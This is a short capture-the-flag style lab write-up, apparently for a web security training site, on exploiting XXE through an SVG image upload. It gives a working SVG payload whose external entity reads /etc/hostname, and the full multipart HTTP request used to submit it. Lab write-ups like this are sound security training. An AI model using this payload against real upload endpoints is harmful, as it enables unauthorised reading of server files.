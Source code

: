 # Lab: Exploiting XXE via image file upload
## Description

Had multiple failed attempts:
* Uploaded imges that were too big
* Uploaded JPG / PNG images with SVG payload
* When using SVG, and the image is blank, it means it was unable to fetct the correct data


## Solution
Created a bah.svg file with the following content:
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="40" x="10" y="40">&xxe;</text></svg>
```

Found the image in the blog post with the following data: `015458125e7f`

The final HTTP request looked like this:
```yaml
POST /post/comment HTTP/1.1
Host: ac961f8f1ec453e0c0f6cee0003d008f.web-security-academy.net
Content-Length: 1096
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoezmTiBcTxd9seO6

------WebKitFormBoundaryoezmTiBcTxd9seO6
Content-Disposition: form-data; name="csrf"

rf7CSuCXwAcrWXJJUIre0wjiZkuzm58e
------WebKitFormBoundaryoezmTiBcTxd9seO6
Content-Disposition: form-data; name="postId"

3
------WebKitFormBoundaryoezmTiBcTxd9seO6
Content-Disposition: form-data; name="comment"

asd
------WebKitFormBoundaryoezmTiBcTxd9seO6
Content-Disposition: form-data; name="name"

asd
------WebKitFormBoundaryoezmTiBcTxd9seO6
Content-Disposition: form-data; name="avatar"; filename="bah.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="40" x="10" y="40">&xxe;</text></svg>
------WebKitFormBoundaryoezmTiBcTxd9seO6
Content-Disposition: form-data; name="email"

test@test.com
------WebKitFormBoundaryoezmTiBcTxd9seO6
Content-Disposition: form-data; name="website"


------WebKitFormBoundaryoezmTiBcTxd9seO6--
```